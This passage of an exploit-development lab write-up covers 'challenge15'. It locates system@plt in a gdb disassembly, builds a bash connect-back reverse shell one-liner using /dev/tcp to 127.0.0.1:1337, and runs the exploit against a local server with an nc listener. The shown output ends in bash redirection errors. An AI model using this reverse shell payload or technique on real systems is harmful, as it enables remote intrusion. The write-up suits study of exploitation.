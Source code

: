 I also inserted a (useless) system() function in the main() function. We can deduct
the address from the disassembly:

```
gdb-peda$ disas main
Dump of assembler code for function main:
   0x0000000000400a95 <+0>:     push   rbp
   0x0000000000400a96 <+1>:     mov    rbp,rsp
   0x0000000000400a99 <+4>:     sub    rsp,0x160
   0x0000000000400aa0 <+11>:    mov    DWORD PTR [rbp-0x154],edi
   0x0000000000400aa6 <+17>:    mov    QWORD PTR [rbp-0x160],rsi
   0x0000000000400aad <+24>:    mov    edi,0x400d0f
   0x0000000000400ab2 <+29>:    call   0x4007b0 <system@plt>
[...]
```

As we can see, the call instruction has a hardcoded address 0x4007b0 with the symbol system@plt.




## Shellcode

`system()` executes binary. We just use bash, and use a special bash oneliner to create a
connect-back shell:

```
shellcode = "0<&181-;exec 181<>/dev/tcp/127.0.0.1/1337;sh <&181 >&181 2>&181"
shellcode =  'bash -c "' + shellcode + '" #'
```

## Exploit

Lets try the exploit:

Start the server:
```
root@hlUbuntu64:~/challenges/challenge15# ./challenge15
Listen on port: 5001
```

Start a listener:
```
root@hlUbuntu64:~/challenges/challenge15# nc -l -p 1337
```

And start the exploit:
```
root@hlUbuntu64:~/challenges/challenge15# ./challenge15-exp.py | nc localhost 5001
```

The server has some strange error messages:
```
Client connected
Received username with len 267
bash: redirection error: cannot duplicate fd: Bad file descriptor
bash: 181: Bad file descriptor
```
